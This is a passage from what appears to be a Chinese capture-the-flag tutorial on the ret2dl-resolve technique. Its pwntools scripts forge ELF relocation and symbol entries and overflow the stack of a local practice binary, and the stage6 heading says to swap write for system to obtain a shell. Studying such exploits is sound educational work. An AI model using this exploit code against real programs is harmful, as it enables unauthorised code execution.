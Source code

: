 ```python
SYMTAB=0x80481d8
STRTAB=0x8048268
plt_start=0x8048370
fake_rel_addr=base_stage+28
rel_offset=fake_rel_addr-JMPREL
binsh_addr=base_stage+80
cmd='/bin/sh\x00'

fake_sym_addr=base_stage+36
align=0x10-((fake_sym_addr-SYMTAB)&0xf)
fake_sym_addr=fake_sym_addr+align
r_info=((fake_sym_addr-SYMTAB)/0x10<<8)|0x7
fake_rel=p32(write_got)+p32(r_info)

fake_name_addr=fake_sym_addr+16
st_name=fake_name_addr-STRTAB
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

payload2='aaaa'
payload2+=p32(plt_start)
payload2+=p32(rel_offset)
payload2+='dead'
payload2+=p32(1)
payload2+=p32(binsh_addr)
payload2+=p32(len(cmd))
payload2+=fake_rel
payload2+='c'*align
payload2+=fake_sym
payload2+='write\x00'
payload2=payload2.ljust(80,'d')
payload2+=cmd
payload2=payload2.ljust(100,'d')

io.recvuntil('2015~!')
io.sendline(payload1)
sleep(1)
io.sendline(payload2)

io.interactive()
```

### stage6

替换write为system，并修改参数，获取shell

```python
from pwn import *

io=process('./bof')
elf=ELF('./bof')
context.log_level='debug'

write_plt=elf.plt['write']
read_plt=elf.plt['read']
write_got=elf.got['write']
bss_addr=elf.bss()

stack_size=0x800
base_stage=bss_addr+stack_size

p_p_p_ret=0x0804856c
leave_ret=0x08048481
pop_ebp_ret=0x08048453

```